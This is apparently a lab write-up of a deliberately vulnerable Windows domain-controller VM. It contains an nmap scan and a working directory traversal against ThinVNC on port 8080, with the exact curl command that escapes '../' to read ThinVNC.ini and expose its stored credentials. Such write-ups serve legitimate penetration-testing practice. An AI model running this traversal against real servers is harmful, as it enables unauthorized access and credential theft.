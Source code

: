 # 0. Sources

||||
|---|---|---|
|[Reddit](https://www.reddit.com/r/oscp/comments/x52uqy/i_made_another_vulnerable_vm_can_you_crack_it_and/)|[YouTube](https://www.youtube.com/watch?v=gT4XuThAlQ4)|[Download](https://drive.google.com/file/d/1uAWR1oZtpxRSAjhAONXCqUqR3wJckKy4/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.40
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 09:27 +08
Nmap scan report for 10.0.88.40
Host is up (0.0014s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-11 01:28:11Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-08-06T03:13:07
|_Not valid after:  2023-02-05T03:13:07
|_ssl-date: 2022-12-11T01:30:08+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http-proxy
|_http-title: 401 Access Denied
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest:
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="Gaiz9UHt5UBI1xcBQe3lQA==", opaque="XgshKcSfAom3vEtIe5sHCFquB6Of3K8LA8"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
| http-auth:
| HTTP/1.1 401 Access Denied\x0D
|_  Digest realm=ThinVNC opaque=Wsx6p9cWsaAsWsUaYlplA31lIqenSeIOiM nonce=xAcnAELt5UAI2xcBQu3lQA== qop=auth
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49726/tcp open  msrpc         Microsoft Windows RPC

</details>

# 2. Checking for exploits

The target has ThinVNC on `8080`, searching for it on **Exploit-DB** returns a plausible [Authentication Bypass exploit](https://www.exploit-db.com/exploits/47519).

The exploit points to `GET`-ing the page on `http://<hostname>/xyz/../../ThinVNC.ini`

But cURL-ing it gives `404`

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.40:8080/xyz/../../ThinVNC.ini
<HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL ThinVNC.ini was not found on this server.<P></BODY></HTML>
```

☝️ cURL and browsers collapses `../` traversals, always double-quote the URL and escape the '/' characters 

The user/password found using a successful cURL:

```console
┌──(root㉿kali)-[~]
└─# curl "http://10.0.88.40:8080/xyz/..\/..\/ThinVNC.ini"
[Authentication]
Unicode=0
User=vagrant
Password=vagrant
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```

# 3. Further attacks

Breaking into ThinVNC provides console access to the machine

The remaining attacks follow the same as [VulnDC](2022-01-10-VulnDC.md) and [VulnDC2](2022-01-17-Vulndc2.md)
